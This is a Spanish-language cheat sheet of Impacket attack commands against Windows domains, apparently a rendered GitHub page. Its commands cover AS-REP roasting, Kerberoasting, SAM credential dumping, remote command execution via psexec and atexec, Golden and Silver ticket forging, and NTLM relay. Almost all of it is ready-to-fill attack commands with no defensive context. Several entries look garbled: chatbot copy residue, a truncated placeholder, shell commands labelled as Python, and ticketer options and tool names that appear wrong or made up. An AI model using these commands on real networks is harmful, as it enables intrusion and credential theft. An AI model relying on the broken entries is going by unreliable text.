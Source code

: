 ### impacket-GetNPUsers:
Descripción: Extrae tickets TGT (Ticket Granting Ticket) sin necesidad de autenticación de contraseña, utilizando el protocolo Kerberos.
```python
impacket-GetNPUsers DOMAIN/USER -dc-ip <domain_controller_ip>
```
### impacket-psexec:
Descripción: Ejecuta comandos en un sistema remoto utilizando el servicio PsExec.
```python
impacket-psexec.py DOMAIN/USER:PASSWORD@TARGET_HOST CMD.EXE
```
### impacket-rpcdump:
Descripción: Realiza una enumeración de RPC en un host remoto.
```python
impacket-rpcdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-secretsdump:
Descripción: Extrae contraseñas almacenadas en la SAM (Security Accounts Manager) de un sistema Windows.
```python
impacket-secretsdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-GetUserSPNs:
enumerar los SPNs asociados a un usuario específico o a todos los usuarios en un dominio.
```python
impacket-GetUserSPNs.py -request <USER>:<PASSWORD> -dc-ip <DOMAIN_CONTROLLER_IP> <DOMAIN>/<USER>
```
### impacket-GetUserSPNs
Obtención del TGS: Una vez que hayas identificado el SPN deseado, puedes solicitar un TGS para ese SPN utilizando `GetUserSPNs
```python
impacket-GetUserSPNs.py <USER>:<PASSWORD> -spn <SPN_TO_TARGET> -dc-ip <DOMAIN_CONTROL
```
### impacket-ticketer Golden Ticket:
Para solicitar un Golden Ticket con Impacket, puedes usar `ticketer.py`. Aquí tienes un ejemplo de cómo hacerlo:
    
    bashCopy code
    
    `impacket-ticketer.py -nthash <USER_NT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_NAME> -sid <USER_SID> -krbtgt <KRBTGT_HASH> -des <DESCRIPTOR> -rc4 <RC4_HASH> <USER_NAME>`
    
    Donde:
    
    - `<USER_NT_HASH>` es el hash NT (hash de la contraseña) del usuario.
    - `<DOMAIN_SID>` es el SID (identificador de seguridad) del dominio.
    - `<DOMAIN_NAME>` es el nombre del dominio.
    - `<USER_SID>` es el SID del usuario.
    - `<KRBTGT_HASH>` es el hash del usuario KRBTGT.
    - `<DESCRIPTOR>` es el descriptor de seguridad del usuario (opcional).
    - `<RC4_HASH>` es el hash RC4 (opcional).
    - `<USER_NAME>` es el nombre de usuario del usuario.
2. **Silver Ticket**: Para solicitar un Silver Ticket con Impacket, también puedes usar `ticketer.py`. Aquí tienes un ejemplo de cómo hacerlo:
    
    bashCopy code
    
    `impacket-ticketer.py -nthash <USER_NT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_NAME> -sid <USER_SID> -krbtgt <KRBTGT_HASH> -spn <SERVICE_SPN> <USER_NAME>`
    
    Donde:
    
    - `<USER_NT_HASH>` es el hash NT (hash de la contraseña) del usuario.
    - `<DOMAIN_SID>` es el SID (identificador de seguridad) del dominio.
    - `<DOMAIN_NAME>` es el nombre del dominio.
    - `<USER_SID>` es el SID del usuario.
    - `<KRBTGT_HASH>` es el hash del usuario KRBTGT.
    - `<SERVICE_SPN>` es el Service Principal Name (SPN) del servicio al que deseas acceder.
    - `<USER_NAME>` es el nombre de usuario del usuario.
### impacket-atexec:
Descripción: Permite ejecutar comandos en un sistema remoto utilizando el servicio Task Scheduler (programador de tareas).
```python
impacket-atexec.py DOMAIN/USER:PASSWORD@TARGET_HOST COMMAND
```
### impacket-dpapi:
Descripción: Proporciona herramientas para manipular DPAPI (Data Protection API) en sistemas Windows.
```python
impacket-dpapi.py
```
### impacket-esentutl:
Descripción: Permite interactuar con bases de datos ESENT (Extensible Storage Engine) en sistemas Windows.
```python
impacket-esentutl.py
```
### impacket-getArch:
Descripción: Obtiene la arquitectura del sistema remoto (32 o 64 bits).
```python
impacket-getArch.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlclient:
Descripción: Un cliente interactivo de SQL Server que se puede utilizar para ejecutar consultas SQL y comandos en un sistema remoto que ejecuta SQL Server.
```python
impacket-mssqlclient.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlinstance:
Descripción: Enumera las instancias de SQL Server en un sistema remoto.
```python
impacket-mssqlinstance.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlping:
Descripción: Realiza un ping a un servidor SQL para verificar la disponibilidad.
```python
impacket-mssqlping.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlservice:
Descripción: Enumera los servicios de SQL Server en un sistema remoto.
```python
impacket-mssqlservice.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-ntlmrelayx:
Descripción: Se utiliza para realizar ataques de relé NTLM en redes corporativas.
```python
impacket-ntlmrelayx.py -tf targets.txt
```